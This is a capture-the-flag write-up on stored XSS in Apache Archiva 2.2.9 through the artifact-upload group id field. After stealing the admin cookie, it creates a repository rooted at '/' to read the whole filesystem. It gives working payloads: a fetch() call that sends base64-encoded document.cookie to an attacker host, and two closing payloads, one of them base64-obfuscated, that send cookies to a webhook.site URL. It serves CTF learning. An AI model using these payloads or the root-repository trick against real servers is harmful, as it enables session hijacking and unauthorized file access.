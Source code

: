 
Apache Archiva is a repository management software that helps us to take care of our personal as well as enterprise build repository.
Here we are using the version 2.2.9
We can login as a normal user using the credentials:
user: ctf
pass: H4v3Fun

As there is a server and an admin bot, this challenge can probably be an xss challenge
Looking at the source code, we can see that the admin visits, /repository/internal. So, we should try to make an entry to this page, but a normal user has very less privileges.
So, there is an upload functionality here, (in upload artifact). So, this page allows to upload a file to already existing repository.

Lets try giving a simple alert(1) payload to see if we have xss:
repo id: internal
group id : `<img src=a onerror=alert(1)>`
artifact: 1
version: 1
packaging : 1
upload a random file: then save.
Go to http://localhost:8055/repository/internal/ we can see we have xss

Now our goal is to steal the admin cookie and get the admin privileges which has lot more functionalitites like creating a repository.
To steal admin cookie:
`<img src=a onerror="fetch(String.fromCharCode(47)+String.fromCharCode(47)+'{my_host}:{my_port}'+String.fromCharCode(47)+btoa(document.cookie))">`

After getting the admin priveleges: create a new repo
id=root
name=root
directory=/
Accessed via http://localhost:8055/repository/root/ giving us complete read access to the entire system.


<br>
<br>
```
<script>document.write('<img src="https://webhook.site/5f41dc6d-6532-41ec-90c5-a597ad8975b5?c='+document.cookie+'" />');</script>
```

```
x"><img%20src="x"%20onerror="javascript:eval(atob('PHNjcmlwdD4KZG9jdW1lbnQud3JpdGUoJzxpbWcgc3JjPSJodHRwczovL3dlYmhvb2suc2l0ZS81ZjQxZGM2ZC02NTMyLTQxZWMtOTBjNS1hNTk3YWQ4OTc1YjU%2FYz0nK2RvY3VtZW50LmNvb2tpZSsnIiAvPicpOwo8L3NjcmlwdD4='))">
```
